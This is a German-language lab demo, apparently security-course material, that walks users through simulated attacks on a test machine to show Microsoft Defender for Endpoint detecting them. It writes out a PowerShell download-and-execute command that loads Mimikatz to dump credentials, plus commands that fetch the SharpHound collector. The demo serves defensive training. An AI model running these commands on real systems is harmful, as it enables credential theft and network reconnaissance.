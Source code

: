 # Demo zu Modul 2 – Abwehr von Bedrohungen mithilfe von Microsoft Defender for Endpoint

**Hinweis:** Der erfolgreiche Abschluss dieser Demo hängt davon ab, alle Schritte im  [Dokument](00-prerequisites.md) „Voraussetzungen“ abzuschließen.

## Simulierte Angriffe

In dieser Aufgabe führen Sie zwei simulierte Angriffe aus, um die Funktionen von Microsoft Defender for Endpoint zu erkunden.

1. Wenn Sie sich in Ihrem Browser noch nicht im Microsoft Defender XDR-Portal befinden, wechseln Sie unter (<https://security.microsoft.com>) zu Microsoft Defender XDR, während Sie als Admin für Ihren Mandanten angemeldet sind.

Sie führen die *simulierten* Angriffe mit *PowerShell* auf *WIN1* aus, um die Funktionen von Microsoft Defender for Endpoint zu erkunden.

`Attack 1: Mimikatz - Credential Dumping`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **Command** in die Suchleiste ein, und wählen Sie**Als Administrator ausführen** aus.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Eingabeaufforderung** ein, und drücken Sie die **EINGABETASTE**, um ihn auszuführen.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Es sollte die Meldung *Zugriff verweigert* und eine Popupnachricht von `Microsoft Defender Antivirus, Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Schließen Sie das Fenster **Administrator: Eingabeaufforderung** durch Eingabe von **exit** und Drücken der **EINGABETASTE**.

`Attack 2: Bloodhound - Collection`

1. Geben Sie auf dem Computer *WIN1* die Zeichenfolge **PowerShell ** in die Suchleiste ein, und wählen Sie **Windows PowerShell** und dann **Als Administrator ausführen** aus.

1. Kopieren Sie die folgenden Befehle, fügen Sie sie in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Hinweis:** Es wird empfohlen, die Befehle einzeln zu kopieren, einzufügen und auszuführen. Dazu können Sie *Editor* öffnen und die Befehle in eine temporäre Datei kopieren. Der erste Befehl erstellt einen Ordner namens *ExternalPayloads* in dem Ordner, in dem sich der Ordner *Atomic Red Team* befindet. Der zweite Befehl lädt die Datei *SharpHound.ps1* aus dem GitHub-Repository *BloodHound* herunter und speichert sie im Ordner *ExternalPayloads*.

1. Es sollte eine Popupmeldung von `Windows Security Virus and threats protection` angezeigt werden, dass *Bedrohungen gefunden* wurden.

1. Kopieren Sie den folgenden Befehl, fügen Sie ihn in das Fenster **Administrator: Windows PowerShell** ein, und drücken Sie die **EINGABETASTE**, um sie auszuführen.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Wenn die Ausgabe *True* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus nicht entfernt. Wenn die Ausgabe *False* lautet, wurde die Datei mit den Schadsoftwarenutzdaten von Microsoft Defender Antivirus entfernt. Verwenden Sie die NACH-OBEN-TASTE, um den Befehl zu wiederholen, bis die Ausgabe *False* lautet.

## Damit haben Sie die Demo beendet
